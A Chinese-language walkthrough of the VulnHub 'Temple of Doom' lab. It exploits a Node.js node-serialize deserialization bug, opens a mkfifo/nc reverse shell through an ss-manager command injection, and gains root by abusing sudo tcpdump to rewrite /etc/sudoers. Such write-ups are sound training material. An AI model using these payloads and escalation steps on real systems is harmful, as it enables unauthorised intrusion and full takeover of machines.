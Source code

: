 # Temple of Doom: 1

2024-4-27 https://www.vulnhub.com/entry/temple-of-doom-1,243/

difficulty: Easy/Intermediate

## IP

192.168.10.176

## Scan

Open Port -> 22,666

```
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey:
|   2048 956804c7420304cd004e367ecd4f66ea (RSA)
|   256 c3065f7f17b6cbbc796b4646cc113a7d (ECDSA)
|_  256 630c288825d5481982bbbd72c66c6850 (ED25519)
666/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
```

22 端口不能匿名访问，666 端口对应的是一个 nodejs express 服务。

访问 http://192.168.10.176:666/ 页面上提示：Under Construction, Come Back Later!

对 666web 端口扫描下目录，没有扫描到其他目录信息。

看样子我们的攻击路径，就是在这个 nodejs 服务上了。再次访问后出现了错误提示：

```
SyntaxError: Unexpected token F in JSON at position 79
    at JSON.parse (<anonymous>)
    at Object.exports.unserialize (/home/nodeadmin/.web/node_modules/node-serialize/lib/serialize.js:62:16)
    at /home/nodeadmin/.web/server.js:12:29
    at Layer.handle [as handle_request] (/home/nodeadmin/.web/node_modules/express/lib/router/layer.js:95:5)
    at next (/home/nodeadmin/.web/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/home/nodeadmin/.web/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/home/nodeadmin/.web/node_modules/express/lib/router/layer.js:95:5)
    at /home/nodeadmin/.web/node_modules/express/lib/router/index.js:281:22
    at Function.process_params (/home/nodeadmin/.web/node_modules/express/lib/router/index.js:335:12)
    at next (/home/nodeadmin/.web/node_modules/express/lib/router/index.js:275:10)
```

根据上面错误提示，可以看到此服务使用了 json 序列化，并且在/home 目录下，发现了一个用户 nodeadmin。

具体看以下请求中的访问信息：

```
GET / HTTP/1.1
Host: 192.168.10.176:666
Cookie: profile=eyJ1c2VybmFtZSI6IkFkbWluIiwiY3NyZnRva2VuIjoidTMydDRvM3RiM2dnNDMxZnMzNGdnZGdjaGp3bnphMGw9IiwiRXhwaXJlcz0iOkZyaWRheSwgMTMgT2N0IDIwMTggMDA6MDA6MDAgR01UIn0
Connection: close
```

看到上面的 cookie 的 profile 貌似是 base64 编码，解码后看看是什么：

```
{"username":"Admin","csrftoken":"u32t4o3tb3gg431fs34ggdgchjwnza0l=","Expires=":Friday, 13 Oct 2018 00:00:00 GMT"}
```

应该是 json 这里，是否我们能进行相关利用。经过查找，发现了相关的漏洞描述：Exploiting Node.js deserialization bug for Remote Code Execution (CVE-2017-5941)

对应的漏洞利用说明 https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf

```
Node.JS - 'node-serialize' Remote Code Execution (2) | nodejs/webapps/49552.py
```

修改 url 和 payload 中的 ip 和端口之后，在 kali 上进行监听接收反弹，执行此 py 脚本看能否进行利用。

```
python2 49552.py
```

执行后，我们在 kali 上接收到了反弹的连接，继续进行权限提升，先升级下 tty：python -c 'import pty; pty.spawn("/bin/bash")'

在 /etc/passwd 中发现了其他 2 个用户：

```
root:x:0:0:root:/root:/bin/bash
nodeadmin:x:1001:1001::/home/nodeadmin:/bin/bash
fireman:x:1002:1002::/home/fireman:/bin/bash
```

但是 fireman 的目录我们进不去。

经过信息侦察，没有直接发现密码之类的信息，也没有 SUID 之类的特权程序。但是，发现 fireman 运行了 /usr/local/bin/ss-manager，看看这个程序有没有漏洞利用点， ss-manager 的版本为 shadowsocks-libev 3.1.0，在 searchsploit 中找到了对应版本的 exp：

```
shadowsocks-libev 3.1.0 - Command Execution | linux/local/43006.txt
```

先在我们的 kali 上建立监听：nc -lvnp 7777

发现 ss-manager 运行在 8839 端口上，在目标机器上执行下面的代码：

```
nc -u 127.0.0.1 8839

# nc 连接成功后，输入下面的代码
add: {"server_port":8003, "password":"test", "method":"||rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.10.3 7777 >/tmp/f||"}
```

这时，我们 7777 监听上就得到的反弹的 shell 会话：

```
sh-4.4$ id
id
uid=1002(fireman) gid=1002(fireman) groups=1002(fireman)
```

查看 fireman 的特殊权限：

```
[fireman@localhost ~]$ sudo -l

User fireman may run the following commands on localhost:
    (ALL) NOPASSWD: /sbin/iptables
    (ALL) NOPASSWD: /usr/bin/nmcli
    (ALL) NOPASSWD: /usr/sbin/tcpdump
```

发现 tcpdump 可以有 sudo 的提权利用：

```
echo 'echo "fireman ALL=(ALL)NOPASSWD:ALL" >> /etc/sudoers' > /tmp/shell
chmod +x /tmp/shell
sudo /usr/sbin/tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/shell -Z root
```

最终 fireman 获得了超级权限：

```
sudo -l
User fireman may run the following commands on localhost:
    (ALL) NOPASSWD: /sbin/iptables
    (ALL) NOPASSWD: /usr/bin/nmcli
    (ALL) NOPASSWD: /usr/sbin/tcpdump
    (ALL) NOPASSWD: ALL

sudo su
```
